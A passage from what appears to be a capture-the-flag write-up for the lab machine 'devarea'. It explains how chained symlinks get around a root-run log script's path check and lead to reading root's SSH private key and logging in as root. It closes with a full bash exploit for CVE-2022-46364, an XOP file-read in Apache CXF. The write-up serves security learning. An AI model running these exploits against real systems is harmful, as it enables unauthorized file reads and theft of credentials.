`if [[ "$target" =~ ^[A-Za-z0-9_.-]+$ ]]; then` -> checks that the symlink contains only allowed symbols.

`if [ -f "$resolved" ]; then` -> Checks if <span class="highlight">$LOG_DIR/$target</span> exists as a regular file. Crucially, `-f` follows symlinks transparently.

`cat "$resolved"` -> follows the symlink chain at the OS level, reading the final target.

The validation checks whether the symlink target contains `/`, `..`, or `\` -> however, it only inspects the immediate target of the symlink, not the full resolved path.
Since <span class="highlight">l1</span> points to <span class="highlight">l2</span> that represent a plain filename,  it passes all validation checks. 

The script then calls `cat "$LOG_DIR/l2"` -> and <span class="highlight_tools">cat</span> follows the chain, ultimately reading a specified file. Since <span class="highlight_username">dev_ryan</span> can execute it as root -> we can read all files.

#### Getting Root

Go to the <span class="highlight_filename">/opt/syswatch/logs</span> directory.

First, we read <span class="highlight_filename">authorized_keys</span> to determine which key type root uses.
```bash
syswatch@devarea:~/logs$ ln -s l2 l1
syswatch@devarea:~/logs$ ln -s /root/.ssh/authorized_keys l2
```
Check:
```bash
sudo /opt/syswatch/syswatch.sh logs l1
```

<span class="highlight_info">[+] key type -> ed25519</span>


Replace <span class="highlight">l2</span> with a symlink pointing to the private key: <span class="highlight_filename">/root/.ssh/id_ed25519</span>
```bash
syswatch@devarea:~/logs$ rm l2
syswatch@devarea:~/logs$ ln -s /root/.ssh/id_ed25519 l2
```

Run the script to read the logs:


Copy the private key to the attack host and set the correct permissions:

```bash
chmod 600 root.key
```

Login as root:
```bash
└─$ ssh root@devarea.htb -i root.key 
```

<span class="highlight_info">[+] /root/root.txt</span>


<hr>

## Appendix

<h2 class="highlight_h2" id="script_cve-2022-46364">A) Script for CVE-2022-46364</h2>
```bash
#!/bin/bash

file=$1
echo "$file"

REQ="
------=boundary
Content-Type: application/xop+xml; charset=UTF-8; type=\"text/xml\"
Content-Transfer-Encoding: 8bit
Content-ID: <root.message@cxf.apache.org>

<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\" xmlns:dev=\"http://devarea.htb/\"> 
   <soapenv:Header/>    
   <soapenv:Body>       
      <dev:submitReport>
         <arg0>
            <confidential>false</confidential>
            <content>?<xop:Include xmlns:xop=\"http://www.w3.org/2004/08/xop/include\" href=\"file://${file}\"/></content>  
            <department>IT</department>      
            <employeeName>John</employeeName>
         </arg0>
      </dev:submitReport>
   </soapenv:Body>
</soapenv:Envelope>
------=boundary--
"
echo "$REQ" > temp_req

curl -X POST -s "http://devarea.htb:8080/employeeservice" --data-binary @temp_req -H 'Content-Type: multipart/related; type="application/xop+xml"; boundary="----=boundary"; start="<root.message@cxf.apache.org>"; start-info="text/xml"' -H 'Soapaction: ""' > temp_res

res=$(xmllint --xpath '//*[local-name()="return"]/text()' temp_res | grep -oP '(?<=Content: ).*' | base64 -d)

echo "$res"
```